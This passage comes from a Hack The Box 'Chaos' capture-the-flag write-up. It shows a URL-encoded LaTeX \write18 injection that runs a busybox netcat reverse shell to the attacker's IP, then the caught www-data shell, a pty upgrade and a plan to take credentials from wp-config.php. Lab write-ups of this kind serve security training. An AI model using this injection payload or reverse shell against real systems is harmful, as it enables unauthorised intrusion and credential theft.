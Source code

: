 ![htb_chaos_id.png](../assets/chaos_assets/htb_chaos_id.png)

Cool, let's use this to issue a URL encoded reverse shell oneliner:

```
content=\write18{busybox%20nc%2010.10.14.234%209001%20-e%20%2Fbin%2Fbash}&template=test1
```


And catch as shell back:

```
┌──(ryan㉿kali)-[~/HTB/Chaos]
└─$ nc -lnvp 9001        
listening on [any] 9001 ...
connect to [10.10.14.234] from (UNKNOWN) [10.129.28.99] 34364
whoami
www-data
hostname
chaos
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ 
```

However we are still unable to get into any of the users `/home` directories:

```
www-data@chaos:/home$ ls
ayush  sahay
www-data@chaos:/home$ cd ayush
bash: cd: ayush: Permission denied
www-data@chaos:/home$ cd sahay 
bash: cd: sahay: Permission denied
```

Remembering there was a wordpress instance running, I can check in wp-config.php and find some credentials:
